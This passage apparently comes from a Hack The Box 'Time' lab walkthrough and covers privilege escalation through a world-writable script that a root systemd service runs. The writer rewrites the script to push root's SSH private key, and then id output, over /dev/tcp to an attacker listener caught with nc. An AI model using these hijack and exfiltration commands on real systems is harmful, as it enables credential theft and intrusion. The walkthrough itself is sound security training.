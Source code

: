 ```text
pericles@time:/etc/cron.d$ cat e2scrub_all 
30 3 * * 0 root test -e /run/systemd/system || SERVICE_MODE=1 /usr/lib/x86_64-linux-gnu/e2fsprogs/e2scrub_all_cron
10 3 * * * root test -e /run/systemd/system || SERVICE_MODE=1 /sbin/e2scrub_all -A -r
```

I searched through all of the crons and didn't find the script.

```text
pericles@time:/etc$ grep -r timer_backup.sh * 2>/dev/null
systemd/system/web_backup.service:ExecStart=/bin/bash /usr/bin/timer_backup.sh
```

Next, I used grep to search for the name of the script in all of the files in `/etc` and got a hit in the `systemd/system/web_backup.service` file.

```text
pericles@time:/etc$ ls -la systemd/system/web_backup.service
-rw-r--r-- 1 root root 106 Oct 23 04:57 systemd/system/web_backup.service
```

This service was running as root.

```text
pericles@time:/etc$ ls -la /usr/bin/timer_backup.sh
-rwxrw-rw- 1 pericles pericles 88 Mar 16 22:25 /usr/bin/timer_backup.sh
```

I double checked the permissions on the script, and saw that it was fully owned by `pericles`, and I could both read and write it. I decided to change the script to do a backup of root's Private key.

### Getting a shell

```text
#!/bin/bash
cat /root/.ssh/id_rsa > /dev/tcp/10.10.14.159/8082 2>&1
```

```text
┌──(zweilos㉿kali)-[~/htb/time]
└─$ nc -lvnp 8082 > time.key
listening on [any] 8082 ...
connect to [10.10.14.159] from (UNKNOWN) [10.10.10.214] 33180

┌──(zweilos㉿kali)-[~/htb/time]
└─$ cat time.key 
cat: /root/.ssh/id_rsa: No such file or directory
```

Unfortunately it appeared as if there was no `id_rsa` file, or the script was not running as root.

```text
#!/bin/bash
echo $(id) > /dev/tcp/10.10.14.159/8082 2>&1
```

Next I changed the script so it would send me the user ID information of the context the script was being run under
